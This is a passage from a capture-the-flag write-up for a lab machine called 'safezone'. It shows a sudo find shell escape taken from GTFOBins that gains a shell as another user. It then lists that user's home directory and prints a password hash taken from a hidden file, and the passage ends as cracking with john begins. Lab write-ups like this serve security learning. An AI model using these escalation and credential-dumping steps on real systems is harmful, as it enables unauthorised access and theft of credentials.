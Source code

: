 On `GTFOBINS`, we can find this info on how to exploit this:

![](cybersecurity/images/Pasted%2520image%252020250519203911.png)

Let's do:

```
sudo -u files /usr/bin/find . -exec /bin/bash \; -quit
```

![](cybersecurity/images/Pasted%2520image%252020250519204031.png)

There we go, let's check our privileges again:

```
files@safezone:/$ sudo -l
Matching Defaults entries for files on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id
```

I couldn't find any info on how to exploit this on `gtfobins`, let's leave it like that for now and proceed to check more stuff, for example, we can find this inside of `/home/files/`:

```
files@safezone:/$ ls -la /home/files
total 48
drwxrwxrwx 5 files    files    4096 May 20 07:04  .
drwxr-xr-x 4 root     root     4096 Jan 29  2021  ..
-rw------- 1 files    files       0 Mar 29  2021  .bash_history
-rw-r--r-- 1 files    files     220 Jan 29  2021  .bash_logout
-rw-r--r-- 1 files    files    3771 Jan 29  2021  .bashrc
drwx------ 2 files    files    4096 Jan 29  2021  .cache
drwx------ 3 files    files    4096 Jan 29  2021  .gnupg
drwxrwxr-x 3 files    files    4096 Jan 30  2021  .local
-rw-r--r-- 1 files    files     807 Jan 29  2021  .profile
-rw-r--r-- 1 root     root      105 Jan 29  2021 '.something#fake_can@be^here'
-rwxrwxrwx 1 root     root      112 Jan 29  2021  pass.txt
-rw-r--r-- 1 www-data www-data 5493 May 20 06:39  rev.ph
```


We got `.something#fake_can@be^here`:

```
files@safezone:~$ cat .something#fake_can@be\^here
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

We got a hash, let's crack it using john:
